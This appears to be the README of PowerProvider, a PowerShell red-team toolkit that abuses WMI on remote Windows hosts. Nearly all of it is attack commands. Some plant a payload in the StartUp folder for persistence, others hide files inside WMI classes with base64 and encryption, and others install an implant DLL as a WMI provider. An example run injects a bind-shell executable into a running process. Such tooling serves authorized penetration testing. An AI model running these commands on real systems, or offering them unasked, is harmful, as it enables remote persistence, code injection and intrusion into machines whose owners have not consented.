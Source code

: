 ## PowerProvider

PowerProvider: A toolkit to manipulate WMI. This toolkit provides functionality to:
* Duplicate Classes
* Create static classes for file storage
* Remote Install WMI Providers

Primarily used in conjunction with WheresMyImplant - https://github.com/0xbadjuju/WheresMyImplant/

### Methods
#### Class Duplication
  * **Invoke-WMIDuplicateClass**
    * Invoke-WMIDuplicateClass -TargetClassName Win32_Process -DuplicateClassName Win32_Create -ComputerName $ComputerName -Credential $Credential

#### File Transfer
  * **Invoke-WMIUpload**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Destination $Destination -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Inject -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
  * **Invoke-WMIRemoteExtract**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIRemoteExtract -PayloadName Payload.exe -Destination $Destination -ComputerName  $ComputerName -Credential $Credential

#### File Storage
  * **New-WMIFSClass**
    * New-WMIFSClass -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-Base64**
    * $File = ConvertTo-Base64 -FileName C:\Payload.exe -Inject
  * **Invoke-InsertFileThreaded**
    * Invoke-InsertFileThreaded -EncodedText $File -FileName Payload.exe -ComputerName $ComputerName -Credential $Credential -Verbose
  * **Invoke-RetrieveFile**
    * $File = Invoke-RetrieveFile -FileName C:\Payload.exe -ComputerName $ComputerName -Credential $Credential
  * **ConvertFrom-Base64**
    * $FileBytes = ConvertFrom-Base64 -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-EncryptedText**
    * $EncryptedString = ConvertTo-EncryptedText -PlaintextString $File
  * **ConvertFrom-EncryptedText**
    * $File = ConvertFrom-EncryptedText -EncryptedString $EncryptedString
    
#### Provider Install
  * **Install-WMIProviderInstallUtil**
    * Install-WMIProviderInstallUtil -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderPowerShell**
    * Install-WMIProviderPowerShell -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderExtention**
    * Install-WMIProvider -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Uninstall-WMIProviderExtention**
    * Uninstall-WMIProvider -ProviderName WheresMyImplant -ClassName Win32_Implant C:\WheresMy -ComputerName $ComputerName -Credential $Credential

#### Example Run

Invoke-WMIUpload -PayloadPath C:\WheresMyImplant.dll -PayloadName WheresMyImplant.dll -Destination C:\Windows\System32\wbem -ComputerName $ComputerName -Credential $Credential -Verbose

Install-WMIProviderExtention -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential -Verbose

Invoke-WMIUpload -PayloadPath C:\bind64.exe -PayloadName bind64.exe -ComputerName $ComputerName -Credential $Credential -Inject -Verbose

(Get-WmiObject -List -Class Win32_Implant -ComputerName $ComputerName -Credential $Credential).Methods["InjectPeWMIFS"].InParameters

Get-WmiObject Win32_Process | Select Name, ProcessId

Invoke-WmiMethod -Class Win32_Implant -Name InjectPeWMIFS -ArgumentList "bind64.exe", "", 4596, "WMIFS" -ComputerName $ComputerName -Credential $Credential

### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None

